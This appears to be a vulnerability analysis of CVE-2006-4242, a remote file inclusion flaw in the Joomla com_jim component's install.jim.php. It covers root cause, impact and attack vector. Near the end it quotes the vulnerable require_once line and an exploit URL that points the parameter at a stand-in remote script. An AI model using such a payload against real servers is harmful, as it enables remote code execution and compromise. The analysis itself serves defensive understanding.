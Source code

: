 Based on the provided content, here's an analysis of CVE-2006-4242:

**Root cause of vulnerability:**
The vulnerability stems from a flaw in the `install.jim.php` file of the Joomla! Component `com_jim` version 1.0.1. Specifically, the `require_once` function uses a user-supplied value for `$mosConfig_absolute_path` without proper sanitization. This allows an attacker to include an arbitrary file from a remote server.

**Weaknesses/vulnerabilities present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is RFI due to the insecure use of `require_once`.
- **Lack of Input Sanitization:** The component fails to sanitize or validate the `mosConfig_absolute_path` parameter before using it in the `require_once` statement.

**Impact of exploitation:**
- **Arbitrary Code Execution:** An attacker can include and execute arbitrary PHP code from a remote server, potentially leading to complete compromise of the vulnerable web server.
- **Data Breach/Manipulation:** The attacker could potentially access or manipulate sensitive data stored on the server, install backdoors, or use the compromised system as a launchpad for further attacks.

**Attack vectors:**
- **HTTP GET Request:** The attack vector is through a crafted HTTP GET request targeting the vulnerable `install.jim.php` file with a malicious URL in the `mosConfig_absolute_path` parameter.

**Required attacker capabilities/position:**
- **Network Access:** The attacker must have network access to the vulnerable server.
- **Knowledge of Vulnerability:** The attacker must be aware of the vulnerable `install.jim.php` file and the `mosConfig_absolute_path` parameter.

**Technical Details:**
The vulnerable code is located in `install.jim.php`, line 16:
```php
require_once($mosConfig_absolute_path."/components/com_jim/readme.txt");
```
The exploit involves setting `mosConfig_absolute_path` to a URL pointing to a malicious PHP file:
```
http://www.site.com/[path]/administrator/components/com_jim/install.jim.php?mosConfig_absolute_path=http://evil_script?
```
This will force the server to include and execute the malicious code from `evil_script`.